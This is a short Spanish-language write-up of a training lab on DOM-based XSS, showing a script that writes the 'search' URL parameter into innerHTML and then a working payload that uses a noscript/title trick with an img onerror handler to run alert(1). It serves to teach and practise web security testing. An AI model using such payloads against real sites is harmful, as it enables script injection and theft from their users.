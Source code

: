 # DOM XSS in innerHTML sink using source location.search

En este laboratorio tenemos que explotar el `innerHTML` y su mala implementación.

![20240806131449.png](20240806131449.png)

Se tiene el siguiente script que se ejecuta cuando se realiza una busqueda

```c
 function doSearchQuery(query) {
	 document.getElementById('searchMessage').innerHTML = query;
	 }
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	doSearchQuery(query);
	}

```

Usaremos el siguiente código de HTML para realizar la búsqueda

```c
<li><a href="#">Item 1</a></li>
```

![20240806132524.png](20240806132524.png)

Luego de enviar la petición podemos observar que se nos interpreta el código html que ingresamos.

![20240806132559.png](20240806132559.png)

Ahora podemos hacer uso del siguiente payload para ejecutar código html

```c
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

![20240806132620.png](20240806132620.png)

